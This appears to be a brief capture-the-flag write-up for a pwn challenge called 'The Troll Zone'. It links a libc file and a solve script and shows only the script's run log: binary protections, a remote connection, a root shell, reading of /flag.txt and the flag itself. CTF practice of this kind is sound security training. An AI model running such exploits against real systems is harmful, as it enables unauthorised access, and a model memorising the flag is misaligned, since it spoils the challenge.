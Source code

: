 # The Troll Zone

[libc.so.6](/Pwn/The_Troll_Zone/libc.so.6) given with the chall.
[solve script](/Pwn/The_Troll_Zone/solve.py) :

```console
$ python3 solve.py 
[*] '/home/geoffrey/Documents/Notes/Kashi/Pwn/The_Troll_Zone/chall/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
[+] Opening connection to kashictf.iitbhucybersec.in on port 55668: Done
[*] Switching to interactive mode
$ whoami
root
$ cat /flag.txt
KashiCTF{did_some_trolling_right_there_EZRnYY5N}
$ exit
[*] Got EOF while reading in interactive
$ 
$ 
[*] Closed connection to kashictf.iitbhucybersec.in port 55668
[*] Got EOF while sending in interactive
```
